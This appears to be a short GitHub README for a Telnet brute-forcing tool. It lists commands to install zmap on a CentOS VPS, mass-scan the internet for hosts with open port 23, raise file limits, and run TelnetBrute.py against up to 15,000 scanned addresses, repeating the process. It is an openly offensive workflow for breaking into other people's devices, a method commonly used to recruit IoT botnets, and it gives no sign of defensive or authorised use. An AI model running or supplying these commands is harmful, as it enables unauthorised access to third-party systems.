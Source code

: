 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p23 -o mfu.txt -N 15000 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



